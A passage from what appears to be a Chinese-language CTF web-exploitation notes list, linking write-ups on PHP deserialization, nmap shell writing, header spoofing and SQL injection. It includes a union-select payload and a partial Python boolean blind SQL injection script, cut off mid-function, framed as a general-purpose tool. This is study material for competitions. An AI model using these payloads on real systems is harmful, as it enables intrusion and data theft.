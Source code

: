 ```python
    t = threading.Thread(target=get_content,args=(i,))
    t.start()
```

题目及来源：[[强网杯 2019]高明的黑客](https://blog.csdn.net/qq_51684648/article/details/120167176)

19. php extract变量覆盖+反序列化逃逸漏洞。例题:[[安洵杯 2019]easy_serialize_php](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5B%E5%AE%89%E6%B4%B5%E6%9D%AF%202019%5Deasy_serialize_php.md)

20. python unicodedata.numeric 漏洞。例题：[[ASIS 2019]Unicorn shop](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BASIS%202019%5DUnicorn%20shop.md)

21. php魔术方法：[官方文档](https://www.php.net/manual/zh/language.oop5.magic.php)。例题：[[MRCTF2020]Ezpop](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BMRCTF2020%5DEzpop.md)

22. php [->,=>和::符号详解](https://segmentfault.com/a/1190000008600674)。

23. 命令注入的nmap利用：-oG选项写shell并绕过php escapeshellarg和escapeshellcmd函数。例题：[[BUUCTF 2018]Online Tool](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BBUUCTF%202018%5DOnline%20Tool.md)

24. [php特殊标签绕过滤](https://www.cnblogs.com/jinqi520/p/11417365.html)
25. php利用数学函数构造任意shell。例题：[[CISCN 2019 初赛]Love Math](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BCISCN%202019%20%E5%88%9D%E8%B5%9B%5DLove%20Math.md)
26. 当题目有提到“检查ip”，“只有我自己……”等有关获取ip的内容时，可以考虑是否在xff上做了手脚，比如我们能把xff改为127.0.0.1来伪造本机，甚至是执行模板注入。例题:[[MRCTF2020]PYWebsite](https://buuoj.cn/challenges#[MRCTF2020]PYWebsite)
27. flag可能会出现在phpinfo界面的Environment里，有时候是因为出题人配置错误，有时候就是这么设计的。例题：[[NPUCTF2020]ReadlezPHP](https://buuoj.cn/challenges#[NPUCTF2020]ReadlezPHP)
28. sql注入。
- 在information_schem被ban后的替代注入+[无列名注入](https://blog.csdn.net/qq_45521281/article/details/106647880)。例题：[[SWPU2019]Web1](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BSWPU2019%5DWeb1.md)
- updatexml报错注入。例题:[HardSQL](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/HardSQL.md)
- 堆叠注入+符号`||`的利用。例题:[EasySQL](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/EasySQL.md)
- 联合查询（union select）会构造虚拟数据，利用此虚拟数据可以伪造登录。例题：[BabySQli](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/BabySQli.md)
    - 当过滤太多，无法获取数据库中账号信息但需要登录时使用。或者当数据库里压根就没有信息但仍需要登录时使用。如果是后者，也可以去sqlite_master里随便查出信息来用:`union select rootpage, type, name from sqlite_master --`，因为sqlite_master里一定是有值的
- 二分法异或盲注。例题:[[极客大挑战 2019]FinalSQL](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DFinalSQL.md)
  - 在这道题的基础上改动，使其成为通用的mysql布尔盲注脚本。当然改一下if语句的内容也能做延时注入（时间盲注）脚本。
```python
import requests
url="http://62.173.140.174:26001/user.php"
def payload(i, j):
    # 数据库名字
    #sql = f"test'/**/and/**/if(ascii(substr(database(),{i},1))>{j},1,0)#"
    # 表名
    #sql = f"test'/**/and/**/if((ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='data'),{i},1))>{j}),1,0)#"
    # 列名
    # sql = f"test'/**/and/**/if((ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flags')),{i},1))>{j}),1,0)#"
    # 查询flag
    sql = f"test'/**/and/**/if((ord(substr((select(group_concat(flag))from(flags)),{i},1))>{j}),1,0)#"
    data={'login':sql,'password':'test'}
    r = requests.get(url, params=data)
    if "User" in r.text:
       res = 1
    else:
       res = 0
    return res
def exp():
    flag=""
```